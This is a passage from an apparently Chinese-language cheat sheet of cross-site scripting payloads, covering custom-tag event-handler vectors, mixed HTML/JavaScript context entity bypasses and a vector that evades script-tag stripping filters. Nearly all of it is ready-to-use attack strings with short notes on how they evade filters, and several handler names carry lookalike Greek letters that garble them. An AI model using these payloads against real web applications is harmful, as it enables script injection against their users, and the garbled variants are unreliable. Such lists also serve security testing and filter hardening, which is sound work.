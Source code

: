 ```
如果web应用不允许使用所有已知的HTML标记名时，请使用以下payload。任何字母字符或字符串都可以用作标签名名来代替"x"。 如payload本身所述,有些需要用户交互才能触发.

<x contenteditable οnblur=alert(1)>lose focus!
<x οnclick=alert(1)>click this!
<x οncοpy=alert(1)>copy this!
<x οncοntextmenu=alert(1)>right click this!
<x onauxclick=alert(1)>right click this!
<x oncut=alert(1)>copy this!
<x οndblclick=alert(1)>double click this!
<x οndrag=alert(1)>drag this!
<x contenteditable οnfοcus=alert(1)>focus this!
<x contenteditable οninput=alert(1)>input here!
<x contenteditable οnkeydοwn=alert(1)>press any key!
<x contenteditable οnkeypress=alert(1)>press any key!
<x contenteditable οnkeyup=alert(1)>press any key!
<x οnmοusedοwn=alert(1)>click this!
<x οnmοuseenter=alert(1)>hover this
<x οnmοusemοve=alert(1)>hover this!
<x οnmοuseοut=alert(1)>hover this!
<x οnmοuseοver=alert(1)>hover this!
<x οnmοuseup=alert(1)>click this!
<x contenteditable οnpaste=alert(1)>paste here!
<x onpointercancel=alert(1)>hover this!
<x onpointerdown=alert(1)>hover this!
<x onpointerenter=alert(1)>hover this!
<x onpointerleave=alert(1)>hover this!
<x onpointermove=alert(1)>hover this!
<x onpointerout=alert(1)>hover this!
<x onpointerover=alert(1)>hover this!
<x onpointerup=alert(1)>hover this!
<x onpointerrawupdate=alert(1)>hover this!
```

##### 60.Mixed Context Reflection Entity Bypass (反射实体混合上下文绕过)

```
以下payload用于在实际有效的js代码中的脚本块中转换特定的代码。它需要以在HTML和javascript上下文标签这种顺序执行，并且相关联彼此。 这个svg标记将使下一个脚本块中的单引号编码为'或'，并触发弹窗。 以下javascript场景的payload，分别为： 消除单引号、完全转义单引号、消除双引号和完全转义双引号 

">'-alert(1)-'<svg>
">'-alert(1)-'<svg>
">alert(1)-"<svg>
"">alert(1)-"<svg>
```

##### 61.Strip-My-Script Vector (去除脚本向量)

```
以下payload用于欺骗xss过滤器,用于去除最经典和最知名的XSS payload,它的工作原理是"<script>"标签被删除。 

<svg/on<script><script>load=alert(1)//</script>  
```
